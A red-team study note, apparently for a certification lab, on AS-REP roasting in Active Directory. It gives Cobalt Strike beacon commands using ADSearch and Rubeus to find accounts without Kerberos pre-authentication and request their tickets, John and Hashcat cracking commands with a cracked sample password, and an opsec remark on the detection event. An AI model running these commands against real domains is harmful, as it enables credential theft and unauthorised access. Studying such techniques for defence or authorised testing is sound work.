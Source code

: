 
If a user does not have [[Kerberos]] pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password.  

This configuration is enabled on the User Object and is often seen on accounts that are associated with Linux systems.

![[preauth.png]]

## 🖊️ via Cobalt Strike

As with [[Kerberoasting]], we don't want to asreproast every account in the domain.

1) Search for a user with no pre-auth

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

2) Request the [[Ticket Granting Ticket (TGT)]] for the account

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap`

3) Use `--format=krb5asrep --wordlist=wordlist squid_svc` for [[JohnTheRipper]] or `-a 0 -m 18200 squid_svc wordlist` for [[Hashcat]].

```
$ john --format=krb5asrep --wordlist=wordlist squid_svc
Passw0rd!        ($krb5asrep$squid_svc@dev.cyberbotic.io)
```


### ⚠ Opsec

ASREPRoasting with will generate a 4768 event with RC4 encryption and a preauth type of 0.


### Properties
---
📆 created   {{18-02-2024}} 18:56
🏷️ tags: #redteam #crto 

---

